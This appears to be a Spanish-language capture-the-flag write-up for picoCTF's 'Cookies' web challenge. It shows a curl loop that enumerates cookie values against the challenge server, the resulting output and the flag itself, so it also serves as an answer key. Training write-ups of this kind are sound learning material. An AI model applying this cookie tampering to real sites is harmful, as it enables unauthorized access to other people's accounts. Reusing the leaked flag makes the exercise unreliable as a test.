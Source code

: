 ## Descripción

*Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)*

## Pistas

*None*


## Solución

*Shell*
```
ceciSolis-picoctf@webshell:~$ for i in {1..30}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep 'picoCTF{'
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
ceciSolis-picoctf@webshell:~$ 


```
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

## Notas Adicionales 

*Tenemos varias cookies y en donde esta la bandera puede ser del 1 al 30, entonces, hacemos un ciclo for donde recorda del uno al treinta, donde el curl o sea el link sea silencioso con la -s y al encabezado de la cookie le cambie el valor con i del 1 al 30 eso va recorrer el ciclo, finalmente solo muestra donde empiece la bandera que empieza con picoCTF{., obtenemos la bandera*


## Referencias 

[http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
http://mercury.picoctf.net:29649/check

